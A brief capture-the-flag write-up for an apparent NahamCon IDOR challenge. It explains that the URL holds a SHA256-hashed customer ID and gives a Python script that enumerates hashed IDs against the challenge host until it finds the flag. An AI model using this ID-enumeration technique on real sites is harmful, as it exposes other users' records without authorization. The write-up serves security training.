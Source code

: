The challenge name suggests that it will be an IDOR challenge.

Visiting the website, note that a SHA256 hash is appended to the URL. 
```
http://challenge.nahamcon.com:31646/4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8
```

Cracking the hash reveals that is `11`, which is the customer ID.
So, we can solve this challenge by SHA256 hashing numbers to fuzz the customer ID parameter.

## Solution

```py
#!/usr/bin/env python3

import requests
from hashlib import sha256

url = "http://challenge.nahamcon.com:31646"
for i in range(10):
	customer_id = sha256(str(i).encode('utf-8')).hexdigest()
	response = requests.get(f"{url}/{customer_id}")
	if "flag" in response.text:
		print(response.text)
		break
```